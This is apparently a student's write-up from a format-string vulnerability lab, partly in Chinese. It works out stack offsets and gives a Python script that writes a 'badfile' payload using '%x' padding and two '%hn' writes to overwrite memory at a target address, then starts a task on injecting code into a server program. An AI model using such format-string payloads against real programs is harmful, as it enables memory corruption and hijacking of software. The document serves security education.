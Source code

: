 0xAABB=43707, 0xCCDD=52445, 0xAABB - 12（content前面有12字节的数据） - 8 * 62 =43199,

0xCCDD - 0xAABB = 52445-43707 = 8738

```python
#!/usr/bin/python3
import sys
 
# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))
 
# This line shows how to store an integer at offset 0
target_addr = 0x080e506a
content[0:4] = target_addr.to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode("latin-1")

content[8:12] = (target_addr - 2).to_bytes(4, byteorder='little')
 
# This line shows how to construct a string s with
# 12 of "%.8x", concatenated with a "%s"
s = "%.8x"*62 + "%.43199x" + "%hn" + "%.8738x" + "%hn"

# The line shows how to store the string s at offset 8
fmt = (s).encode("latin-1")
content[12:12+len(fmt)] = fmt
 
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```



![image-20220216180454240](Format String.assets/image-20220216180454240.png)

## Task 4: Inject Malicious Code into the Server Program

### Understanding the Stack Layout

![image-20220216220713220](Format String.assets/image-20220216220713220.png)

* Question 1: What are the memory addresses at the locations marked by (2) and (3)?

* Question 2: How many %x format specifiers do we need to move the format string argument pointer
  to (3)? Remember, the argument pointer starts from the location above (1).

Answer:

* Answer 1: 
